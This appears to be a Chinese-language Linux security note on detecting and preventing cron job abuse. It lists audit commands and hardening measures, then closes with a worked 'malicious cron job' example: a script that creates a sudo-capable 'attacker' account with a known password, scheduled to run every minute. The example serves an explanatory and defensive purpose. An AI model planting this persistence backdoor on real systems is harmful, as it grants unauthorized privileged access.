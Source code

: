 
##### 检测和防范Cron Jobs的滥用

###### 检测恶意Cron Jobs

- 定期检查系统所有用户的Cron Jobs：
  ```bash
  for user in $(cut -f1 -d: /etc/passwd); do
    echo "Cron jobs for $user:"
    crontab -u $user -l
  done
  ```
- 检查系统的Cron目录（系统级Cron Jobs）：
  ```bash
  ls -l /etc/cron.*
  ```
- 查看Cron日志（通常位于 `/var/log/cron` 或 `/var/log/syslog`）：
  ```bash
  grep CRON /var/log/syslog
  ```

###### 防范措施

- **限制权限：** 只允许受信任的用户使用Cron Jobs，编辑 `/etc/cron.allow` 和 `/etc/cron.deny` 文件。
- **文件完整性监控：** 使用工具如 AIDE 或 Tripwire 监控 `crontab` 文件和Cron目录的更改。
- **日志审计：** 配置并定期审查Cron相关日志，以检测异常活动。
- **定期审计：** 定期检查所有用户的Cron Jobs，确保没有未经授权的定时任务。





##### 示例：完整的恶意Cron Job配置

1. **创建恶意脚本**
   ```bash
   sudo nano /usr/local/bin/malicious.sh
   ```
   添加以下内容：
   ```bash
   #!/bin/bash
   useradd -m attacker
   echo "attacker:password" | chpasswd
   usermod -aG sudo attacker
   ```
   保存并退出，然后赋予执行权限：
   ```bash
   sudo chmod +x /usr/local/bin/malicious.sh
   ```

2. **配置Cron Job**
   ```bash
   crontab -e
   ```
   添加以下行：
   ```bash
   * * * * * /usr/local/bin/malicious.sh
   ```
